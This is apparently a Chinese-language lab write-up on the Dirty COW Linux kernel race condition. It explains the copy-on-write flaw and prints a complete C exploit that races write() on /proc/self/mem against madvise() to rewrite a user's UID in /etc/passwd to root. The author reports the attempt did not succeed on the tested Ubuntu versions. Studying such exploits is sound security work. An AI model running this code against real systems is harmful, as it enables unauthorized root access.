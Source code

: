 # 脏牛漏洞攻击

## 漏洞的产生

写时拷贝类型的内存，write会经过以下三个步骤：  
1、对映射的内存做一份拷贝  
2、更新页表，让虚拟内存指向新创建的物理内存  
3、写入内存  
如果步骤2和3被其他线程打断，造成了竟态条件，如果步骤2让虚拟内存指向最初的物理内存，而不是私有拷贝，使得只读文件被
修改，这就是脏牛漏洞

## 利用脏牛漏洞

!!! 脏牛漏洞影响的ubuntu版本

    为ubuntu 12.04~14.10之间的版本，含EXP

为了利用脏牛漏洞，需要两个线程，一个线程通过write()函数尝试修改映射内存，另外一个线程使用madvise()函数丢弃映射
内存的私有拷贝。

攻击流程：增加一个普通用户testcow，利用脏牛漏洞把该用户提升为root权限。  
首先增加一个用户：
```bash
sudo adduser testcow
```
![adduser](../img/cow-adduser.png)

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

// 把1002改成0000，因为映射内存是COW类型的，这个线程执行时，
// 只能修改映射内存的拷贝，不会对/etc/passwd文件有任何影响
void *writeThread(void *arg)
{
    char *content = "testcow:x:0000";
    off_t offset = (off_t)arg;
    
    int f = open("/proc/self/mem", O_RDWR);
    while(1)
    {
        lseek(f, offset, SEEK_SET);
        write(f, content, strlen(content));
    }
}

// 抛弃映射内存的私有拷贝，让页表指回最初的映射内存
void *madviseThread(void *arg)
{
    int file_size = (int)arg;
    while(1)
    {
        madvise(map, file_size, MADV_DONTNEED);
    }
}

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;
    
    int f=open("/etc/passwd", O_RDONLY);
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    char *position = strstr(map, "testcow:x:1002");
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);
    
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    return 0;
}

```

fstat是从文件描述符取得文件的状态  
pthread_create创建并执行两个线程  
gcc中的-lpthread，不仅可以链接pthread库，还可以打开系统头文件中的各种多线程支持分支。  

![ubuntu14.04上无法成功](../img/cow-attack2.png)

!!! warning

    实验没有成功，最终显示testcow:x:0000则实验成功。操作系统换成12.04，系统不更新，也是一样结果。
    对比程序和seed lab一样，可能是系统原因，需要下载seed lab镜像再试。